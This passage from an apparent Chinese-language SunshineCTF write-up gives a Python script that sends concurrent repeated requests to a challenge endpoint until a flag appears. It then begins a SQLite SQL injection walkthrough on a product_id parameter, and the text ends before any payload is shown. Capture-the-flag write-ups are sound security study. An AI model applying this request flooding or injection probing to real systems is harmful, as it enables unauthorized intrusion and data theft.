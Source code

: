 ```python
        # 执行异步请求
        result = await async_request_wrapper(url, executor)
        
        # 检查是否满足停止条件（示例：状态码为200时停止所有任务）
        # if result["success"] and result["status"] == 200:
        #     print(f"Worker {worker_id} 满足停止条件！状态码: 200")
        #     should_stop = True  # 设置全局标志，终止所有任务
        #     break
        print(f"Worker {worker_id} 结果：{result["content"]}")
        if 'sun{' in result["content"]:
            print(f"Worker {worker_id} 满足停止条件！状态码: 200")
            should_stop = True
            break
        
        # 控制请求频率
        await asyncio.sleep(1)
    
    print(f"Worker {worker_id} 已停止，共请求 {request_count} 次")

async def main():
    target_url = "https://supernova.sunshinectf.games/trigger"
    num_workers = 5  # 线程数（并发数）
    
    # 创建线程池（限制并发线程数量）
    with ThreadPoolExecutor(max_workers=num_workers) as executor:
        # 创建多个工作协程
        workers = [
            request_worker(target_url, i+1, executor)
            for i in range(num_workers)
        ]
        
        # 同时运行所有工作协程，直到全部完成
        await asyncio.gather(*workers)

if __name__ == "__main__":
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        print("\n程序被用户中断")
```

### Lunar Shop

经过简单测试，我们发现 `https://meteor.sunshinectf.games/product?product_id=3` 这里存在 SQLite 的 SQL 注入。

我们构造好闭合之后，首先要对它能够返回的数据测试，假如我们的 SQL 语句如下。

```sql
select * from xxx where id=$product_id;
```

那么我们就要构造如下语句去测试。
